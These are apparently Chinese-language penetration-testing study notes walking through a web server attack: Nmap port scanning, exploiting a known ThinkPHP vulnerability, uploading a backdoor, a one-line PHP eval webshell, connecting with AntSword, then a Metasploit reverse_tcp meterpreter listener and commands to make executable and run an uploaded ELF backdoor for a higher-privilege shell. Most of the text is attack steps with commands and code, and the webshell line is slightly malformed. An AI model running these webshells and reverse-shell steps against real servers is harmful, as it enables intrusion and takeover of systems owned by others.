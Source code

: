

## 快速识别网站

### 扫端口

如：快扫网关已开启的端口

*：快扫并不完整，只扫常用端口

8080端口启用，代表可能存在网站服务

![image-20220801173105133](./2_Nmap.assets/image-20220801173105133.png)



Kali中的Nmap只能使用命令行，常用命令：

```
nmap -sT -T4 [ipAddress]
```

> -s: Scan
>
> T: TCP
>
> -T Time	# 控制时间
>
> 4				# 扫描速度(0-5 数字越大越快)



同类工具：御剑端口扫描工具



### 看开发框架

> 通常存在于页面末端或网站图标或F12里



### 搜索历史漏洞并利用

如：thinkphp

![image-20220801174548963](./2_Nmap.assets/image-20220801174548963.png)



### 上传后门

例1：

![image-20220801190619947](./2_Nmap.assets/image-20220801190619947.png)

例2：

![image-20220801190633220](./2_Nmap.assets/image-20220801190633220.png)

### Webshell

Ex：一句话木马

```php
<?php eval($_POST[ccc];)?>
```



常用工具：中国蚁剑、菜刀、哥斯拉、冰蝎

**蚁剑为例**：

仓库：[AntSwordProject (github.com)](https://github.com/AntSwordProject)

文档：[AntSword 文档 · 语雀 (yuque.com)](https://www.yuque.com/antswordproject/antsword)



![image-20220803171818174](./2_Nmap.assets/image-20220803171818174.png)



连接成功后即可进行GetShell等操作

![image-20220803174708439](./2_Nmap.assets/image-20220803174708439.png)

**利用Metesploit进行攻击**

生成后门

*：Linux的可执行文件格式为elf，故-f 为 elf

![image-20220803175456903](./2_Nmap.assets/image-20220803175456903.png)



将后门Copy到服务器后，msfconsole开启监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost [kali_IP]
set lport [10000]
run
```



回到蚁剑，打开服务器Terminal，更改生成的elf文件的权限为可执行，并运行文件

```
chmod 777 demo10000.elf
./demo10000.elf
```



此时正在监听的kali便能get到更高权限的shell













